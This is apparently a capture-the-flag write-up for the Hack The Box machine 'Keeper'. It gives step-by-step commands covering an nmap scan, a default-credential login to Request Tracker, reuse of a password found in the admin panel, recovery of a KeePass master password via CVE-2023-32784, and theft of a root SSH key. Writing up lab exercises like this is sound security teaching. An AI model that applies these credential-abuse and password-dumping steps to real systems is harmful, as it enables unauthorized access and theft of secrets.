


# Keeper      


## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


Here are the descriptions of the open ports shown in the screenshots:
### **22/tcp (SSH)**
The **SSH** service is running **OpenSSH 8.9p1** on **Ubuntu**. This service is typically used for secure remote access. The scan reveals the server's **ECDSA** and **ED25519** host keys, which are used for encryption and authentication.

### **80/tcp (HTTP)**
The web server running on this port is **nginx 1.18.0** on **Ubuntu**. The HTTP methods **GET** and **HEAD** are supported. The server doesn't have a title, indicating a default or minimal configuration.

When I saw that http is open, I pasted `http://{target ip}` into the browser.


Let's add `tickets.keeper.htb` and `keeper.htb` into `/etc/hosts` then.

I did it by using nano but you can just paste

```
echo "{target ip} tickets.keeper.htb keeper.htb" | sudo tee -a /etc/hosts
```

into your terminal.

Option whith `nano`:

```
sudo nano /etc/hosts
```

then write it like on the screenshot


Then save it by using combination `Ctrl + X` and `Y` and then `Enter`.

Ok. Let's go to the `http://tickets.keeper.htb/rt/` now.

We can see login panel.



I found there:

```
https://forum.bestpractical.com/t/forgot-admin-password-of-rt/33451
```

that the default credentials for **RT** are:

```
root:password
```

I pasted it, and it worked.


Let's look around. I quickly found something interesting.

Go to `Admin -> Users -> Select`.


There are two privileged users - `root` and `lnorgaard`.

When we click on `lnorgaard` we can see this:


From the **Nmap** scan, we know that **SSH** is open.

Let's try to log in with

```
lnorgaard:Welcome2023!
```

credentials.

### SSH

Type:

```
ssh lnorgaard@{target ip}
```

and provide the password - `Welcome2023!`.


We are **in**.

### Get the user flag

The `user` flag is in the `/home/lnorgaard` path.



### Privilege escalation

Time to escalate our privileges.

There is `RT30000.zip` file in the directory where `user`'s flag where found.

We are going to `unzip` it.

```
unzip RT30000.zip
```


**KeePass** is an open-source password manager that securely stores and manages passwords in an encrypted database file (`.kdbx`). It uses strong encryption algorithms, such as AES-256, to protect stored data, ensuring that only those with the master password can access it. KeePass is available on multiple platforms, including Windows, Linux, and macOS, and it supports browser integration and plugins for additional functionality. It is favored for its offline nature, meaning user data is not stored on cloud services..

I pasted `KeePassDumpFull.dmp` into `Google` and I found this exploit:

```
https://github.com/vdohney/keepass-password-dumper
```

and also this exploit:

```
https://github.com/z-jxy/keepass_dump
```

This kind of file is related to the **CVE-2023-32784**.

**CVE-2023-32784** is a vulnerability in KeePass 2.x before version 2.54 that allows attackers to recover most of the cleartext master password from a memory dump, even when the program is locked or not running. This can be exploited through process dumps or system memory files like swap or hibernation files. While the first character is not recoverable, the rest of the password is exposed. A patch in version 2.54 mitigates this by altering how KeePass manages memory during password entry.

Let's copy `RT30000.zip` file to our local machine to use one of mentioned exploits.

```
scp lnorgaard@{target ip}:/home/lnorgaard/RT30000.zip {path to where you want to copy it}
```


`Unzip` it.

Now, let's get our exploit. I've decided to use `https://github.com/z-jxy/keepass_dump` one as few CTF players recommended it and the first one wasn't very willing to cooperate. Even when I installed `.NET 7.0`. I did not want to do it with `Docker`.

```
git clone https://github.com/z-jxy/keepass_dump
```

```
cd keepass_dump
```

```
python3 keepass_dump.py -f {whole path to the KeePassDumpFull.dmp file}
```


It did not recognize first char but after pasting `dgrd med flde` into Google I found this:


So password is probably `rødgrød med fløde`.


I think it is.

So, 

*If we've already obtained the master password for **KeePass**, it means we can access all the stored credentials within the password database. This gives us full control over the contents, including usernames, passwords, and other sensitive data.*

### keepassxc-cli

Let's open `passcodes.kdbx` now. I did it by using **keepassxc-cli**.

You can get this tool by installing `keepassxc`.

```
sudo apt install keepassxc 
```

If you have it, type:

```
keepassxc-cli open passcodes.kdbx
```

and provide the password - `rødgrød med fløde`.

We can see the password worked!


From all the database entries only `Network/` contains something.


Let's see what's inside `keeper.htb (Ticketing Server)`.

Type:

```
show "keeper.htb (Ticketing Server)"
```

or 

```
keepassxc-cli show passcodes.kdbx "Network/keeper.htb (Ticketing Server)"
```

if you have already left.


This is PuTTY private key - `PuTTY-User-Key-File-3: ssh-rsa`.

**Save** your **PuTTY private key** into `.ppk` file.


### PuTTYgen

To convert a `PuTTY private key(.ppk)` to an `OpenSSH` compatible private key, we have to use **PuTTYgen**.

If you don't have this tool type:

```
sudo apt install putty-tools
```

Now, let's extract it. Type:

```
puttygen {/path/to/your-key}.ppk -O private-openssh -o {path and name to the output key}
```


Perfect.

### SSH again

Now, let's log in as `root` via **SSH**.

But first we have to set file permissions, so only the owner of the file has **read and write** permissions. 

We don't have to do this but I always try to practice being `save`. It is typically used for sensitive files like mentioned **SSH private keys** to ensure that only the owner can see or modify them, which is enhancing security.

Unauthorized users are unable to read or modify the file.

```
chmod 600 {your file with RSA private key}
```

Now, let's log in.

```
ssh -i {name of your file with RSA private key} root@keeper.htb
```


Boom. We are `root`.

### Get the root flag

`Root` flag is in the `/root` directory.


### Paste the flags

